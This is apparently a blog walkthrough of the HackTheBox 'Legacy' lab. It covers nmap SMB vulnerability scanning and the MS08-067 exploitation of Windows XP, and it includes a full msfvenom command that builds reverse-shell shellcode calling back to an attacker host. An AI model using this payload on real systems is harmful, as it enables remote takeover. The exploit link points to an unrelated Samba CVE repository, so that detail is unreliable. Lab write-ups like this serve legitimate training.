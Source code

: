 ```yaml
---
layout: post
title:  "HackTheBox Legacy Walkthrough"
date:   2020-01-07 00:00:00 -0500
categories: Tutorials
---
```


```
 _                                 
| |                                
| |     ___  __ _  __ _  ___ _   _ 
| |    / _ \/ _` |/ _` |/ __| | | |
| |___|  __/ (_| | (_| | (__| |_| |
\_____/\___|\__, |\__,_|\___|\__, |
             __/ |            __/ |
            |___/            |___/ 
```


A good beginner box with multiple vulnerabilties.
<br/>

There are two SMB vulnerabilties that I found:
* smb-vuln-ms08-067 - This is Vuln that we will be going over in this walkthrough.
* smb-vuln-ms17-010 - One of my top favorite exploits, WannaCry/EternalBlue.

<br/>

**1)** Scanned and saw that port 445 was open, also saw that the OS was running Windows XP.
![NMAP]({{ "/files/HTBLegacy_00.png" | absolute_url }})<br/> 
<br/>

**2)** Ran nmap SMB scripts to find vulnerabilities. Found *smb-vuln-ms08-067* and *smb-vuln-ms17-010*.
![vulns]({{ "/files/HTBLegacy_01.png" | absolute_url }})<br/>
<br/>

**3)** Found this exploit for *smb-vuln-ms08-67* on GitHub, be sure to install the required impacket dependencies: <https://raw.githubusercontent.com/amriunix/CVE-2007-2447/master/usermap_script.py>
<br/>
<br/>
All that is needed to be replaced is the shellcode with your own.
```msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows```
![shellcode]({{ "/files/HTBLegacy_02.png" | absolute_url }})<br/>
<br/>

**4)** Ran the ms08_067_2018.py exploit and was able to get a root reverse shell. Found the user.txt and root.txt. <br/>
![reverseShell]({{ "/files/HTBLegacy_03.png" | absolute_url }})<br/>
![user]({{ "/files/HTBLegacy_04.png" | absolute_url }})<br/>
![root]({{ "/files/HTBLegacy_05.png" | absolute_url }})<br/>